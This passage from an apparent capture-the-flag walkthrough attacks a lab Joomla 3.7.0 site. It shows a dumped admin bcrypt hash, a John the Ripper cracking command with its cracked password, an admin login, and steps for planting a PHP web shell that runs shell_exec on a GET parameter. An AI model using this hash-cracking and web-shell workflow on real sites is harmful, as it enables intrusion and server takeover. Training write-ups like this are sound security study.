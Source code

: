 
<img width="1219" alt="7" src="https://user-images.githubusercontent.com/28839345/165778763-a01791e4-34fe-4e81-a293-575fb6df1c36.png">

As you can see now you have the username of jonah and his password in bcrypt format.
` [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']`

Now its time to crack the password.First save the hashed password in a file named file.txt and then run the following command to crack the hash using john the ripper.
`john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

<img width="915" alt="8" src="https://user-images.githubusercontent.com/28839345/165778764-d157aee6-9b49-438e-8a0d-508825d4e183.png">

The password is *spiderman123*

Try to login to the website with username:jonah and password:spiderman123 to see if you find the correct credentials.

<img width="1344" alt="9" src="https://user-images.githubusercontent.com/28839345/165778775-0f46dc42-7936-4c3a-b440-a14d72b2658d.png">

In the previous output of joomblah.py you will see that *jonah* is a Super User.Since you know that go to the /administrator page which you find in your previous gobuster scan and log in as jonah.


<img width="1272" alt="10" src="https://user-images.githubusercontent.com/28839345/165778786-dd65d6f7-37bb-4846-9691-7841964adfdf.png">

Now its time to find a way to connect to the web server of Joomla so we can later escalate our priviledges and become root.

After searching on google about exploits to get a reverse shell in Joomla version 3.7.0 as an authenticated user I found a way to do this from the following website.

1. Having access to the account and being able to edit the template

-   Go to Extensions - Templates - Templates

<img width="1285" alt="11" src="https://user-images.githubusercontent.com/28839345/165778794-dce6b480-7cd5-47bd-97c6-65e293e4f877.png">

2. Select the template to use, in this case “Protostar Details and Files”

-   Click on New File

<img width="1280" alt="13" src="https://user-images.githubusercontent.com/28839345/165778799-6cee6baf-f911-4eea-88db-b90f3633b6dd.png">

3. Choose a file name: vk9-sec
-   Choose the extension: php

<img width="1246" alt="14" src="https://user-images.githubusercontent.com/28839345/165778806-eb49384b-c1bf-4c07-85da-ce17dcb04099.png">

4.  Click on Create

<img width="1283" alt="15" src="https://user-images.githubusercontent.com/28839345/165778813-61bffab2-0be8-4dd5-92dd-e703dbe4f64f.png">

5. Then  copy and paste the following code
-   <?php echo "Follow us." ?>
-   <?php echo shell_exec($_GET['cmd']); ?>
-   Click save
